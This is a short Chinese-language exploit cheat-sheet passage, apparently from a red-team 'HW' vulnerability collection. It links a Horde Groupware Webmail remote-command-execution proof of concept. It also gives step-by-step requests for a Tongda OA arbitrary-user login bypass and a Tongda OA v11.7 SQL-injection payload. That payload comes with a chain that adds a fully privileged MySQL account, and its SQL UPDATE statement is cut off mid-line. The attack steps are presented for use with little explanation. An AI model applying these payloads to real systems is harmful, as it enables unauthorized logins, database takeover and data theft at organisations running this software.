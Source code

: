 ### Horde Groupware Webmail Edition 远程命令执行

&emsp;&emsp;来源: `https://srcincite.io/pocs/zdi-20-1051.py.txt`。

### 通达OA任意用户登录

* 1、首先访问`/ispirit/login_code.php`获取`codeuid`

* 2、访问`/general/login_code_scan.php`提交 post 参数：`uid=1&codeuid={9E908086-342B-2A87-B0E9-E573E226302A}`

![](/img/HW-Vuln/HW21.png)

* 3、最后访问`/ispirit/login_code_check.php?codeuid=xxx`，这样`$_SESSION`里就有了登录的信息了。

### 通达OA v11.7 后台SQL注入

&emsp;&emsp;利用条件：需要登录权限。

&emsp;&emsp;`/general/hr/manage/query/delete_cascade.php?condition_cascade=select%20if((substr(user(),1,1)=%27r%27),1,power(9999,99))`

&emsp;&emsp;利用链示例：

* 1、添加一个mysql用户：`grant all privileges ON mysql.* TO 'ateam666'@'%' IDENTIFIED BY 'abcABC@123' WITH GRANT OPTION`

![](/img/HW-Vuln/HW22.png)

* 2、给创建的ateam666账户添加mysql权限

```
UPDATE `mysql`.`user` SET `Password` = '*DE0742FA79F6754E99FDB9C8D2911226A5A9051D', `Select_priv` = 'Y', `Insert_priv` = 'Y', `Up
```

* 3、刷新数据库就可以登录到数据库：`/general/hr/manage/query/delete_cascade.php?condition_cascade=flush privileges;`

